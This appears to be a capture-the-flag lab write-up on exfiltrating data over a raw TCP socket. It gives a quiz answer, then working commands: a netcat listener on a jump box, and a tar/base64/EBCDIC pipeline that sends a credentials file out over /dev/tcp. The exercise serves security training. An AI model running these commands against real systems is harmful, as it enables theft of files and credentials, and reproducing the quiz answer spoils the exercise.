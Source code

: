  "This task shows how to exfiltrate data over TCP using data encoding.  Using the TCP socket is one of the data exfiltration techniques that an attacker may use in  a non-secured environment where they know there are no network-based security products.  If we are in a well-secured environment, then this kind of exfiltration is not recommended.  This exfiltration type is easy to detect because we rely on non-standard protocols ."

Answer : non-standard

### Now apply what we discussed to exfiltrate data over the TCP socket! Once you exfiltrate data successfully, hit Completed to move on to the next task!

Let's first prepare our Jump-Box to receive data and the victim to send this data :

ON JUMP-BOX :

```console
thm@jump-box:~$ nc -lnvp 8080 > /tmp/task4-creds.data
Listening on 0.0.0.0 8080
```
{: .nolineno }

ON VICTIM1:

```console
ssh thm@10.10.155.150 -p 2022

thm@victim1:~$ cat task4/creds.txt 
admin:password
Admin:123456
root:toor
```
{: .nolineno }

Now that the Jump-box is listening and we can prepare creds.txt on the victim1 data to be exfiltrated :

```console
thm@victim1:~$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
244 bytes copied, 0.00692325 s, 35.2 kB/s
```
{: .nolineno }

We should now have received our data file on the Jump-box :

```console
thm@jump-box:~$ nc -lnvp 8080 > /tmp/task4-creds.data
Listening on 0.0.0.0 8080
Connection received on 192.168.0.101 33494
thm@jump-box:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 thm root 244 Oct  1 11:15 task4-creds.data
```
{: .nolineno }

